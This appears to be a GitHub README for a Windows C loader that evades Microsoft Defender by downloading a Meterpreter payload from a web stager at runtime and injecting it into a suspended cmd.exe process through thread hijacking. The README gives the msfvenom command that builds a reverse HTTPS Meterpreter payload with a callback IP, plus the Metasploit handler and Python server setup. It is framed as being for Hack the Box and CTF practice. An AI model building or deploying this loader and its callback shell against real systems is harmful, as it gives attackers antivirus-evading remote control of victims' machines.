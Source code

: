 # 🎯 Meterpreter Payload exectuion

A lightweight Windows C application developed using **Visual Studio**. This project aims to execute a Meterpreter payload with Defender enabled. The purpose is to use this exe on harder Hack the Box machines. This approach helps bypass Defender, although some Meterpreter functionalities may still be flagged. This solution results from work done after following **MALDEV Academy** — a fantastic course that helped me reach this level.

---
⚠️ **Disclaimer:** This project is for educational purposes only. It is designed to help individuals understand how malware operates so they can better defend against it. Its intended purpose is for Hack the Box or CTF-like events. 

## Approach

- Utilize a web stager to host the raw Meterpreter Binary. This fetches the shell code at runtime and will avoid some common signatures by not storing the shell code on disk.
- I then create a suspended process, "cmd.exe" and then hijack a thread of that process to execute the shell code


## 🚀 Getting Started

This is designed to be a web cradle. This exe will fetch your payload at run time and then call back with a Meterpreter payload on a different port. The steps below are for setup.


### 🌱 Kali setup

1. Build the Payload 
``` bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.216.130 LPORT=8000 -f raw exitfunc=process --bad-chars '\x00' -o Meterpreter_Payload
# Change the LHOST and PORT for your local machine that is hosting Metasploit
```

2. Open Metasploit


 ```bash
# In a different terminal setup Metasploit below
msfconsole
use multi/handler
#set the lhost, lport, and payload to match the command above
 ```
3. Setup the python server

``` bash
# In the same directory as the payload and a different terminal as Metasploit, run the following commands
python3 -m http.server 8080
``` 

4. Below is a screenshot of what your terminal should look like

![alt text](image.png)


### 🛠️ Build Instructions

1. Clone the repository:

2. Open the `.sln` file in **Visual Studio**

    - Change the IP and Port for your Kali machine. Make sure the port used hosts the Python server.

3. Build the project:
    - Select **Build > Build Solution** (or press `Ctrl+Shift+B`)
    - Set build mode to `Debug` or `Release`

4. Run the executable from Visual Studio

5. Below are screenshots of the output

- Executing the payload on the target
![alt text](image-1.png)

- A callback,, then a Meterpreter shell
![alt text](image-2.png)

## 📚 Credits

- **MALDEV Academy** — [maldevacademy.com](https://maldevacademy.com)  
  A fantastic resource for learning malware development techniques.
  
- **Offensive Security Community** — [offensive-security.com](https://www.offensive-security.com)  
  The community behind Kali Linux and other offensive security tools.

- **Metasploit** — [metasploit.com](https://www.metasploit.com)  
  A powerful framework for developing and executing exploit code against remote target machines.

- **Python HTTP Server**  
  Used to serve the payload during the attack.

---
